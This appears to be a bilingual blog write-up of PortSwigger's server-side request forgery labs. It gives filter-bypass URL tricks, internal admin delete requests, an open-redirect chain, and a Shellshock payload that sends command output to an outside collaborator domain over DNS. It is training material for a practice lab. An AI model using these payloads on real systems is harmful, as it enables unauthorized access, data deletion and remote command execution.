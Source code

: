 ```yaml
---
layout: single
title: SSRF - PortSwigger
excerpt: "All Server-side request forgery labs of PortSwigger."
date: 2025-08-20
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - portswigger
  - Web
tags:
  - Burpsuite
  - SSRF
---
```



## SSRF Tips

- WAF URL Bypass

```
http://127.1/
http://127.0.0.2/
http://127.14.3.2/
http://localhOst/
http://0x7f000001/    > HEXADECIMAL
http://2130706433/    > DECIMAL
```

- WAF DIRECTORY Bypass

```
adMin
%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

## SSRF básico contra servidor local || Basic SSRF against the local server

![](/img2/Pasted%20image%2020250816202751.png)

> Si hacemos una petición al localhost interno vemos que hay una ruta /admin.

![](/img2/Pasted%20image%2020250816202603.png)

> Dentro del directorio /admin tenemos la opción de borrar usuarios.

![](/img2/Pasted%20image%2020250816203351.png)

- Injection 

```
http://localhost/admin/delete?username=carlos
```

## SSRF básico contra sistema interno || Basic SSRF against another back-end system

![](/img2/Pasted%20image%2020250817121557.png)

![](/img2/Pasted%20image%2020250817121629.png)

![](/img2/Pasted%20image%2020250817121736.png)

> Con la funcionalidad de 'intruder' hacemos un escaneo de puertos internos. En el escaneo encontramos el puerto 67 abierto.

![](/img2/Pasted%20image%2020250817122304.png)

![](/img2/Pasted%20image%2020250817122356.png)

![](/img2/Pasted%20image%2020250817122453.png)

> Sobre la ip encontrada en el escaneo anterior, podemos hacer un fuzzing de directorios para encontrar rutas internas.

![](/img2/Pasted%20image%2020250817122535.png)

- Injection

```
http://192.168.0.67:8080/admin/delete?username=carlos
```

## SSRF básico contra sistema interno || Blind SSRF with out-of-band detection

![](/img2/Pasted%20image%2020250817123736.png)

> Al hacer varias peticiones en la web, vemos que se nos crea la cabecera 'Referer' la cual consiste en referenciar la url anterior, es decir la url desde donde haces la petición.

![](/img2/Pasted%20image%2020250817123821.png)

![](/img2/Pasted%20image%2020250817124017.png)

> Creamos nosotros una cabecera 'Referer' con nuestra propia url.

- Injection

```
https://6z6yin2a9d4a12xom2gj9456zx5otfh4.oastify.com
```

## SSRF con filtro basado en blacklist || SSRF with blacklist-based input filter

![](/img2/Pasted%20image%2020250818140811.png)

> Al intentar hacer una petición a un recurso interno, un WAF nos bloquea la petición.

![](/img2/Pasted%20image%2020250818140940.png)

![](/img2/Pasted%20image%2020250818141433.png)

![](/img2/Pasted%20image%2020250818141512.png)

> Tenemos varias formas de bypassear el WAF.

![](/img2/Pasted%20image%2020250818143129.png)

> Igual que antes vemos que hay un WAF que bloquea las peticiones que contengan el directorio admin.

![](/img2/Pasted%20image%2020250818143259.png)

![](/img2/Pasted%20image%2020250818143428.png)

> Para bypassear el WAF tenemos varias formas.

![](/img2/Pasted%20image%2020250818141956.png)

- Injection

```
http://localhoSt/adMin/delete?username=carlos
```

## Bypass SSRF con redirección abierta || SSRF with filter bypass via open redirection vulnerability

![](/img2/Pasted%20image%2020250818154610.png)

> El parámetro 'stockApi' nos redirige al directorio que indiquemos dentro de la web.

![](/img2/Pasted%20image%2020250818154821.png)

![](/img2/Pasted%20image%2020250818154907.png)

![](/img2/Pasted%20image%2020250818154955.png)

> En la función 'Next product' encontramos que el parámetro 'path' es vulnerable a Open Redirect.

![](/img2/Pasted%20image%2020250818155128.png)

> Para lograr el SSRF combinamos la redirección a un recurso interno con el parámetro 'stockApi' con el Open Redirect.

![](/img2/Pasted%20image%2020250818155421.png)

- Injection

```
/product/nextProduct?currentProductId=19%26path=http://192.168.0.12:8080/admin/delete?username=carlos
```

## SSRF ciego explotando Shellshock || Blind SSRF with Shellshock exploitation

![](/img2/Pasted%20image%2020250818163446.png)

![](/img2/Pasted%20image%2020250818163516.png)

> Detectamos que la cabecera 'Referer' es vulnerable a Blind SSRF.

![](/img2/Pasted%20image%2020250818163703.png)

![](/img2/Pasted%20image%2020250818163751.png)

> Detectamos que hay una vulnerabilidad Shellshock ejecutando el comando 'nslookup' en una ip interna por el puerto 8080.

![](/img2/Pasted%20image%2020250818163955.png)

![](/img2/Pasted%20image%2020250818164039.png)

> Para ver el output del comando 'whoami', podemos hacer uso de la función '$() como si fuera un subdominio de nuestro burp colaborator.

- Injection

```
() { :; }; /usr/bin/nslookup $(whoami).0hi18rwwqo678r7xf01w6ktam1ssgq4f.oastify.com
```

## SSRF con filtro basado en whitelist || SSRF with whitelist-based input filter

![](/img2/Pasted%20image%2020250818174226.png)

> Vemos que se está empleando un WAF, el cual solo permite peticiones al dominio 'stock.weliketoshop.net'.

![](/img2/Pasted%20image%2020250818174526.png)

> Tenemos la opción de autenticar un usuario en la url, podemos usar esta opción para aprovecharnos.

![](/img2/Pasted%20image%2020250818174654.png)

![](/img2/Pasted%20image%2020250818174747.png)

> Para que la web nos interprete la url 'localhost', podemos hacer uso del hash '#', el cual convertiría el dominio requerido por un directorio 'vacío' /#stock.weliketoshop.net. De esta forma respetamos la sintaxis de la autenticación permitida. Para que la web interprete el '/#' como parte de la misma url, tenemos que hacer un doble URL encode.

![](/img2/Pasted%20image%2020250818175048.png)

- Injection

```
http://localhost%25%32%66%25%32%33@stock.weliketoshop.net/admin/delete?username=carlos
```